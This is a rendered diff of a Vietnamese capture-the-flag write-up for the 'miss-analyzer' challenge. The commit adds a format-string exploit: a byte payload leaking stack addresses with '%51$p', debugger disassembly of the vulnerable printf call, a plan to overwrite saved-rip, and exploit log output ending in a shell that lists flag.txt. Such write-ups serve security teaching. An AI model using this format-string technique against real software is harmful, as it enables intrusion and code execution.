

Before and after one commit to antkss/writeUP, a Markdown page: miss-analyzer/miss.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/miss-analyzer/miss.md
+++ b/miss-analyzer/miss.md
@@ -180,26 +180,40 @@ byte = read_byte(buff, size);
 ```python
 b'a'*10 +  b'0b' +b'08' + b'aabaaaaaabaaaaaa' + b'0b' + b'08' +  b'2535312470000000'
 ```
-- format string sẽ được dịch lại tương tự như cách dịch của hàm hexs2bin
+- format string sẽ được dịch lại tương tự như cách dịch của hàm hexs2bin: 2535312470000000
+- sau khi nhập vào thì sẽ leak được địa chỉ và quay lại 1 vòng lặp mới
+```assembly
+  0x401928 <main+607>    mov    eax, 0
+   0x40192d <main+612>    call   printf@plt                      <printf@plt>
+
+   0x401932 <main+617>    lea    rax, [rbp - 0x120]
+   0x401939 <main+624>    mov    rdi, rax
+   0x40193c <main+627>    mov    eax, 0
+ ► 0x401941 <main+632>    call   printf@plt                      <printf@plt>
+        format: 0x7fffffffe4e0 ◂— 0x7024313525 /* '%51$p' */
+        vararg: 0x7fffffffc380 ◂— 0x6e20726579616c50 ('Player n')
+
+   0x401946 <main+637>    mov    edi, 0xa
+   0x40194b <main+642>    call   putchar@plt                      <putchar@plt>
+
+   0x401950 <main+647>    lea    rdx, [rbp - 0x120]
+   0x401957 <main+654>    lea    rsi, [rbp - 0x130]
+   0x40195e <main+661>    lea    rax, [rbp - 0x128]
+```
+- sau khi leak được địa chỉ thì đến bước ghi payload, em sẽ có 3 địa chỉ để ghi vào saved-rip, mỗi địa chỉ ghi 3 lần vì thế em cần viết hàm để ghi qua formatstring
+- vì hàm main lặp lại nên có thể ghi nhiều lần tùy ý
+- sau khi ghi xong và thoát khỏi vòng lặp thì em có thể chạy shell
+
+[*] 0x2563343139383525
+[*] 0x202020206e682436
+[*] this is part 2 of addr 0x7fffffffe620: 0xf7c5
+[*] this is package part 2: 0xe622
+[*] Switching to interactive mode
 ```c
-read_string(&pointerofbuff, &size, format, '\xFF');
-    printf("Hash: %s\n", format);
-    read_string(&pointerofbuff, &size, format, 0xFFu);
-    printf("Player name: ");
-    printf(format);
-    putchar(10);
-    read_string(&pointerofbuff, &size, format, 0xFFu);
-    consume_bytes(&pointerofbuff, &size, 10);
-    v6 = read_short(&pointerofbuff, &size);
-    printf("Miss count: %d\n", v6);
-    if ( v6 )
-      puts("Yep, looks like you missed.");
-    else
-      puts("You didn't miss!");
-    puts("=~=~=~=~=~=~=~=~=~=~=\n");
-    free(buff);
-    free(pointerofbuff);
-  }
-  return 0;
-}
+Error: failed to decode hex
+$ ls
+Dockerfile    analyzer_patched        analyzer_patched.id2  ld-2.35.so
+analyzer      analyzer_patched.i64  analyzer_patched.nam  libc.so.6
+analyzer.i64  analyzer_patched.id0  analyzer_patched.til  miss.md
+analyzer.py   analyzer_patched.id1  flag.txt          start-docker.sh
 ```
````
